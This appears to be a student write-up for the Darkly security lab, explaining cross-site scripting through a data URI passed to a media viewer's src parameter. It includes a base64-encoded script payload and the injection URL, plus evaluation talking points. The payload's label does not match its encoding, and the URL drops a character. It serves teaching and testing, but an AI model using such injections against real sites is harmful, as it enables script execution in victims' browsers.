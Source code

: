 # 🖼️ XSS via Media URL (base64 / data URI) – MEMO

## 📌 Breach Summary
The Darkly website allows the injection of a data URI (`data:text/html;base64,...`) or JavaScript payload in a media-related request (such as an image viewer or file preview). This leads to **DOM-based or URL-based XSS**, often triggered when the base64-encoded payload is decoded and rendered by the browser.

---

## ✅ Step-by-Step Exploitation

### 1. 🔍 Find the Media Viewer Input
- Look for a page that accepts a media or file path as a URL parameter:
  ```
  http://<target-ip>/?page=media&src=nsa
  ```

### 2. 🧪 Inject a Malicious data URI

use bash to convert the script to base64

echo -n "<script>alert('toto')</script>" | base64
# Output: PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+

Try injecting a payload like:
```text
http://<target-ip>/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ
```
(This is the base64 for `<script>alert('XSS')</script>`)

---

## 💬 What to Say During Evaluation

- Explain how `data:` URIs work and why they’re dangerous when unsanitized.
- Discuss XSS via file viewers or media preview URLs.
- Show that the application blindly renders unvalidated base64 or object URLs.

---

## 📚 References

- OWASP A3: Cross-Site Scripting (XSS)
- [MDN: data URI scheme](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs)
- Tools used: browser, base64 encoder

✅ Make sure to demonstrate the payload execution clearly and explain why it works.